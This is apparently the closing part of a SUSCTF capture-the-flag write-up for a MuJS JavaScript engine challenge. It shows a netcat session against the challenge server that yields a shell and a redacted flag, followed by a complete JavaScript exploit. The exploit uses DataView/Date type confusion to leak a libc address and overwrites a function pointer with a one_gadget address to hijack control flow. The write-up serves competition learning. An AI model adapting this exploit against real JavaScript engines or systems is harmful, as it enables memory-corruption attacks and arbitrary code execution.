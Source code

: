```bash
$ nc 124.71.182.21 9999
./tmp/18759.js
Please give your exp.js here, end with '< EOF >':
.... exploit here
< EOF >
last_size: 0
./mujs ./tmp/18759.js
ls
bin
dev
flag
io
lib
lib32
lib64
libx32
mujs
tmp
cat flag
SUSCTF{***********************}
```

### Final exploit
```js
b = DataView(0x68);
a = DataView(0x48);
b = DataView(0x48);
c = DataView(0x48);
e = DataView(0x48);
f = DataView(0x1000 * 0x1000);

b.setUint8(0x48+8, 10); // set c type to Date
Date.prototype.setTime.bind(c)(1.09522e+12) // write random big number to u.number/u.length
b.setUint8(0x48+8, 16); // set c type back to DataView


sh32 = 4294967296 // 1<<32
libb_addr_off = 472
libc_leak = c.getUint32(libb_addr_off) + (c.getUint32(libb_addr_off+4)*sh32)

libc_off = 0x7ffff7c31000 - 0x7ffff6bfe010 // got this from gdb
libc_base = libc_leak + libc_off
print('libc base:', libc_base.toString(16))

one_gag = libc_base + 0xe6c84
print('onegadget:', one_gag.toString(16))

e_obj_off = 192
c.setUint8(160, 4) // this sets type to JS_CCFUNCTION

// set lower 4 bytes of js_CFunction function
c.setUint32(e_obj_off+8, one_gag&0xffffffff) 

// set upper 4 bytes of js_CFunction function
c.setUint32(e_obj_off+8+4, Math.floor(one_gag/sh32)&0xffffffff) 
e() // e is now a function so we can call it 
```
